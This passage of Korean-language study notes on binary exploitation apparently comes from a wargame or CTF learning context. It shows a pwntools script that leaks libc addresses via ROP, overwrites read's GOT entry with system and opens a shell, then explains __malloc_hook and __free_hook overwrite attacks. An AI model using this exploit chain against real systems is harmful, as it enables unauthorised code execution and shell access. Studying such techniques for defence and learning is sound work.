 ```
# CALL read("/bin/bash")
##########
# read의 got를 system으로 변경하게 되면, read("/bin/bash") 를 호출한 결과는 system("/bin/bash") 가 된다.
payload += p64(pop_rdi_ret) + p64(read_got + 0x08)  # "/bin/bash" 문자열을 libc에서 사용하지 않고 got 영역에 덮어써서 사용하겠다.
payload += p64(ret)  # system() 함수 내부의 movaps 가 스택의 데이터를 16바이트로 정렬하므로, 16바이트 짝을 맞추기 위해 리턴가젯 사용
payload += p64(read_plt)


# payload 보내게 되면 (1) read 함수 주소 출력, (2) stdin 입력 대기, 입력된 값으로 read_got 덮어씀, (3) system('/bin/sh') 실행
p.sendafter(b'Buf: ', payload)
addr_read = p.recvn(6).ljust(8,b'\x00')  # ASLR이 적용되면 라이브러리 함수의 주소는 항상 0x00007f 로 시작하므로 0x00 0x00 + 6자리로 구성된다.
print('addr read:', hex(u64(addr_read)))

##########
# CALC LIBC_BASE ADDR
##########
# 유출된 read 함수의 주소로 libc_base 가 메모리상에 위치하는 주소를 계산한다.
offset_read = libc.symbols['read']
libc_base = u64(addr_read) - offset_read
print('libc_base:', hex(libc_base))

##########
# CALC ADDR OF SYSTEM
##########
offset_system = libc.symbols['system']
addr_system = libc_base + offset_system
print('addr system:', hex(addr_system))

p.send(p64(addr_system) + b"/bin/sh\x00")

p.interactive()
```

### Hook Overwrite
- Hooking 이란 운영 체제가 특정 코드를 실행하려 할 때 다른 코드가 강제로 실행되도록 하는 기능이며, 이때 실행되는 코드를 `Hook` 이라 한다.
-  시스템 상 정의되어 있는 Hook 을 원하는 형태로 덮어써서 수행하는 공격을 `Hook Overwrite` 라 한다.
- libc.so 파일의 malloc 관련 함수들에 디버깅 편의를 위해 hook 이 미리 설정되어 있다. 
  - `__libc_malloc` 함수를 살펴보면 `__malloc_hook` 함수가 있으면 이를 호출하도록 되어 있다. 
  - free 함수와 realloc 함수들도 각각 `__free_hook`, `__realloc_hook` 함수가 hooking 되어있다.
  - `__malloc_hook` 는 `libc.so` 영역 안에 있으므로 writing 권한이 있는 라이브러리 영역이며, `__malloc_hook` 에 `Hook Overwrite` 공격을 수행하면 Full RELRO 기법으로 방어할 수 없다.
  - `readelf -s` 명령으로 libc.so 파일의 section 정보를 추출하고, `__malloc_hook` 함수의 index를 찾는다. 이후 `readelf -S` 혹은 `objdump -h` 명령으로  libc.so 파일의 section 들을 확인하여 해당 메모리 영역에 읽기/쓰기 권한이 있는지 확인 할 수 있다. 
    - `__malloc_hook`, `__free_hook`, `__realloc_hook` 가 저장되는 영역이 bss 영역인 linux 버전에서는 Hook Overwrite가 가능하다.
    - `__free_hook` 이나 `__malloc_hook` 은 보안 및 성능 때문에 glibc 2.34 버전부터 제거되었다.

#### Free Hook Overload
- `free` 함수에 적용된 `__free_hook` 를 덮어써서 exploit을 수행 해 본다.
